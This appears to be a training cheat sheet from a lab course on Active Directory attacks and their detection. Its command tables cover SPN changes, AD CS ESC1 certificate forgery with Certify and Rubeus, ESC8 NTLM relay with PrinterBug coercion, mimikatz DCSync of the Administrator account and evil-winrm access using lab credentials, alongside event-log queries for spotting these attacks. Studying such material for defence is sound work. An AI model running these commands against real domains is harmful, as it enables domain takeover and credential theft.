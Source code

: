 # Object ACLs

|Command|Description|
|---|---|
|`setspn -D http/ws001 anni`|Removing the http/ws001 SPN from the anni user.|
|`setspn -U -s ldap/ws001 anni`|Setting a new SPN, ldap/ws001, on the anni user.|
|`setspn -S ldap/server02` server01|Setting a new SPN, ldap/server02, on the server01 machine.|

# PKI - ESC1

|Command|Description|
|---|---|
|`.\Certify.exe find /vulnerable`|Using the Certify.exe tool to scan for vulnerabilities in PKI infrastructure.|
|`.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator`|Using the Certify.exe tool to obtain a certifcate from the vulnerable template|
|`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`|Command to convert a `PEM` certificate to a `PFX` certificate.|
|`.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt`|Using the Rubeus.exe tool to request a TGT for the domain Administrator by way of forged certifcate.|
|`runas /user:eagle\htb-student powershell`|Start a new instance as powershell as the htb-student user.|
|`New-PSSession PKI`|Start a new remote powershell session on the `PKI` machine.|
|`Enter-PSSession PKI`|Enter a remote powershell session on the `PKI` machine.|
|`Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}`|Using the Get-WinEvent cmdlet to view windows Event 4887|
|`$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}`|Command used to save the events into an array|
|`$events[0] \| Format-List -Property *`|Command to view events within the array. The `0` can be adjusted to a different number to match the corresponding event|

# PKI & Coercing - ESC8

|Command|Description|
|---|---|
|`impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs`|Command to forward incoming connections to the CA. The `--adcs` switch makes the tool parse and display the certificate if one is received.|
|`python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123`|Using the PrinterBug to trigger a connection back to the attacker.|
|`xfreerdp /u:bob /p:Slavi123 /v:172.16.18.25 /dynamic-resolution`|Connecting to WS001 from the Kali host using RDP.|
|`.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:<b64 encoded cert>`|Using Rubeus.exe to ask for a TGT by way of base 64 encoded certificate.|
|`mimikatz.exe "lsadump::dcsync /user:Administrator" exit`|Using mimikatz.exe to DCsync the `administrator` user. This is performed once the TGT for DC2 has been passed to the current session.|
|`evil-winrm -i 172.16.18.15 -u htb-student -p 'HTB_@cademy_stdnt!'`|Connecting to PKI from the Kali Host using evil-winrm.|

# Windows Events
